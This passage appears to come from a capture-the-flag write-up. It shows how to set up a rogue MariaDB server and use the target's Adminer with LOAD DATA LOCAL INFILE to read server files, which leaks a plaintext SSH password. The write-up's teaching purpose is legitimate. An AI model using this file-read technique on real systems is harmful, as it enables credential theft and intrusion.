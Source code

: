 > **MariaDB [(none)]> CREATE DATABASE test;**

* and then create a user and give it all privileges to access the database.

> **MariaDB [(none)]> INSERT INTO mysql.user (User,Host,authentication_string,ssl_cipher,x509_issuer,x509_subject)
    -> VALUES('demo','%',PASSWORD('demopassword'),'','','');**
    
> **MariaDB [(none)]> FLUSH PRIVILEGES;**

* and now i selected the db test and give the user all privileges for the database.

> **MariaDB [admirer]> GRANT ALL PRIVILEGES ON *.* TO 'demo'@'%';**

* and create a table name demo here.

> **create table demo(data VARCHAR(255));**

* now go to this file **/etc/mysql/mariadb.conf.d/50-server.cnf** and set the bind address to **0.0.0.0**

* we are done now and we can login.

![](https://i.ibb.co/YcdvsyP/logged-in.png)

* now go to sql command section to run commands.

![](https://i.ibb.co/kQGSRsB/sql-commands.png)

* from the blog we know that we can read the local files of the server which the Adminer uploaded at.

* write these commands to load **local.xml**

```ruby

load data local infile 'app/data/local.xml'
into table demo
fields terminated by "/n"

```

![](https://i.ibb.co/7bd2LmY/local.png)

* there is no file called **local.xml**

* let's read the **index.php**

![](https://i.ibb.co/Vt0JMZX/index-php.png)

* we run the query successfully.

* click on select to get the table content.

![](https://i.ibb.co/sgJzSx1/waldo.png)

> Username:**waldo**, Password:**&<h5b~yK3F#{PaPB&dA}{H>**

* login with ssh.

